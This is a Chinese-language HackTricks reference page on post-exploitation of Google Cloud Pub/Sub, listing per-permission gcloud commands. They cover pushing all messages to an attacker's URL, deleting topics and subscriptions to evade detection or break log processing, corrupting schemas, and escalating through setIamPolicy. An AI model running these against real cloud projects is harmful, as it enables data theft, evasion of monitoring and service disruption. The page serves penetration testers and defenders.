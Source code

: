 # GCP - Pub/Sub后渗透

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Pub/Sub

有关Pub/Sub的更多信息，请查看以下页面：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

在主题中发布消息，可用于**发送意外数据**并触发意外功能或利用漏洞：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

有助于阻止订阅接收消息，也许是为了避免被检测到。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

用于防止订阅接收消息，也许是为了避免被检测。\
即使有订阅附加在主题上，也可以删除主题。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

使用此权限更新主题的某些设置以干扰它，如 `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

授予自己执行任何先前攻击的权限。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

在 web 服务器中获取所有消息：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

创建一个订阅并使用它来**拉取消息**：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**删除订阅**可能对破坏日志处理系统或类似系统有用：
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

使用此权限更新一些设置，使消息存储在您可以访问的位置（URL、Big Query表、Bucket），或者只是为了干扰它。

### `pubsub.subscriptions.setIamPolicy`

授予自己执行先前评论的任何攻击所需的权限。

### `pubsub.schemas.delete`

删除模式以能够发送不符合模式的消息：
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

将模式附加到主题，使消息不符合该模式，从而导致主题中断。\
如果没有任何模式，您可能需要创建一个。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

赋予自己执行先前评论的任何攻击所需的权限。

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

这将创建所有未确认消息的快照，并将它们放回订阅中。对于攻击者来说并不是非常有用，但在这里是：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索我们的独家[**NFTs**]收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
